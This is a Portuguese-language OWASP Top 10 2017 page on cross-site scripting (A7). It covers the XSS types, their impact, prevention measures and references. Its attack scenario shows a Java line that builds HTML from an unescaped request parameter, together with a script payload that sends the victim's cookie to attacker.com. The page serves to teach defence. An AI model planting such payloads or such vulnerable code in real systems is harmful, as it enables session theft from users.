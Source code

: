 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vectores de Ataque | Falha de Segurança | Impacto |
| -- | -- | -- |
| Específico App. \| Abuso: 3 | Prevalência: 3 \| Deteção: 3 | Técnico: 2 \| Negócio ? |
| Existem ferramentas automáticas capazes de detetar e tirar partido dos três tipos de XSS. Existem ainda _frameworks_, disponibilizadas gratuitamente, capazes de explorar este problema. | XSS é o segundo maior risco no Top 10 da OWASP e cerca de dois terços das aplicações são vulneráveis a este tipo de ataque. Existem ferramentas automáticas capazes de encontrar problemas de XSS em tecnologías bastantes populares como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para os tipos Reflected e DOM XSS mas severo para Stored XSS, onde a execução remota de código no navegador da vítima permite ao atacante roubar credenciais, sessões ou até mesmo infetar a máquina da vítima com _malware_. |

## A Aplicação é Vulnerável?

Existem três tipos de XSS que visam normalmente o navegador dos utilizadores:

* **Reflected XSS**: A aplicação ou API incluem dados de entrada do utilizador
  como parte do HTML da resposta sem que estes tenham sido validados e/ou os
  caracteres especiais tratados (_escaping_). Um ataque bem sucedido pode
  permitir a execução de código HTML e JavaScript no navegador da vítima.
  Normalmente a vítima segue um endereço malicioso para uma página controlada
  pelo atacante tal como _watering hole websites_, publicidade ou algo
  semelhante.
* **Stored XSS**: A aplicação ou API armazenam dados de entrada do utilizador de
  forma não tratada (_sanitization_) os quais serão mais tarde acedidos por
  outro utilizador ou administrador. Este tipo de XSS é considerado de risco
  alto ou crítico.
* **DOM XSS**: Tipicamente as _frameworks_ JavaScript, _Single Page
  Applications_ (SPA) e APIs que incluem na página, de forma dinâmica,
  informação controlada pelo atacante, são vulneráveis a DOM XSS. Idealmente a
  aplicação não enviaria informação controlada pelo atacante para as APIs
  JavaScript.

Os ataques típicos de XSS visam o roubo da sessão do utilizador, roubo ou
controlo da conta de utilizador, contornar autenticação de multi-fator (MFA),
alteração do DOM por substituição ou alteração de nós (e.g. formulários),
ataques contra o navegador do utilizador tais como o download de software
malicioso, _key logging_ entre outros.

## Como Prevenir

Prevenir ataques de XSS requer a separação dos dados não confiáveis do conteúdo
ativo do navegador. Isto é conseguido através da:

* Utilização de _frameworks_ que ofereçam nativamente protecção para XSS tais
  como as versões mais recentes de Ruby on Rails e ReactJS. É preciso conhecer
  as limitações destes mecanismos de proteção por forma a tratar de forma
  adequada os casos não cobertos.
* Tratamento adequado (_escaping_) da informação não confiável no pedido HTTP,
  tendo em conta o contexto onde esta informação irá ser inserida no HTML (body,
  atributo, JavaScript, CSS ou URL), resolve os tipos _Reflected_ e _Stored_
  XSS. Detalhes sobre como tratar esta informação estão no [OWASP Cheat Sheet
  'XSS Prevention'][0xa71].
* Aplicação de codificação de caracteres adequada ao contexto de utilização
  aquando da modificação da página no lado do cliente previne DOM XSS. Quando
  isto não é possível, podem utilizar-se algumas das técnicas referidas no
  documento [OWASP Cheat Sheet 'DOM based XSS Prevention'][0xa72].
* Adição de [Content Security Policy (CSP)][0xa73] enquanto medida de mitigação
  de XSS. É uma medida eficaz se não existirem outras vulnerabilidades que
  possibilitem a inclusão de código malicioso através de ficheiros locais da
  aplicação (e.g. _path traversal overwrites_ ou dependências vulneráveis
  incluídas a partir de CDNs autorizadas).

## Exemplos de Cenários de Ataque

**Cenário #1**: A aplicação usa informação não confiável na construção do HTML
abaixo, sem validação ou escaping:

```Java
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

O atacante altera o parâmetro `CC` no browser para:

```
'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Isto irá fazer com que a sessão da vítima seja enviada para a página do
atacante, dando-lhe o controlo sobre a atual sessão do utilizador.

**Nota**: Os atacantes podem tirar partido do XSS para derrotar qualquer
mecanismo de defesa automática contra [Cross-Site Request Forgery
(CSRF)][0xa74].

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data][0xa75]
* [OWASP Proactive Controls: Validate Data][0xa76]
* [OWASP Application Security Verification Standard: V5][0xa77]
* [OWASP Testing Guide: Testing for Reflected XSS][0xa78]
* [OWASP Testing Guide: Testing for Stored XSS][0xa79]
* [OWASP Testing Guide: Testing for DOM XSS][0xa710]
* [OWASP Cheat Sheet: XSS Prevention][0xa711]
* [OWASP Cheat Sheet: DOM based XSS Prevention][0xa712]
* [OWASP Cheat Sheet: XSS Filter Evasion][0xa713]
* [OWASP Java Encoder Project][0xa714]

### Externas

* [CWE-79: Improper neutralization of user supplied input][0xa715]
* [PortSwigger: Client-side template injection][0xa716]

[0xa71]: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
[0xa72]: https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html
[0xa73]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[0xa74]: https://developer.mozilla.org/pt-PT/docs/Glossary/CSRF
[0xa75]: https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data
[0xa76]: https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data
[0xa77]: https://owasp.org/www-project-application-security-verification-standard/
[0xa78]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting
[0xa79]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting
[0xa710]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting
[0xa711]: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
[0xa712]: https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html
[0xa713]: https://owasp.org/www-community/xss-filter-evasion-cheatsheet
[0xa714]: https://owasp.org/www-project-java-encoder/
[0xa715]: https://cwe.mitre.org/data/definitions/79.html
[0xa716]: https://portswigger.net/kb/issues/00200308_client-side-template-injection

